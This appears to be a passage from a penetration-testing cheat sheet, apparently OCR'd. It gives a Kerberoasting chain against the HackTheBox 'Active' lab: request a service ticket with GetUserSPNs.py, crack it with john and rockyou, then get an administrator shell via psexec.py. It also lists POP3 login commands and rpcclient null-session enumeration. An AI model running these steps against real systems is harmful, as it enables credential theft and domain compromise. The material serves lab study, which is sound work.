 ```powershell
tel#add host to /etc/hosts
sudo gedit /etc/hosts

./GetUserSPNs.py -request active.htb/SVC_TGS > admin.txt
#the password we will get will be encrypted
john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt

#with the cracked password...
psexec.py administrator@active.htb
```

## **Pop3 (110):**

```bash
telnet INSERTIPADDRESS 110
```

```bash
USER [username]
```

```bash
PASS [password]
```

- To login

```bash
LIST
```

- To list messages

```bash
RETR [message number]
```

- Retrieve message

```bash
QUIT
```

```bash
quits
```

## RPC (135)

```bash
rpcclient --user="" --command=enumprivs -N $ip #Connect to an RPC share without a username and password and enumerate privledges
rpcclient --user="<Username>" --command=enumprivs $ip #Connect to an RPC share with a username and enumerate privledges
```

## **RPCBind (111):**
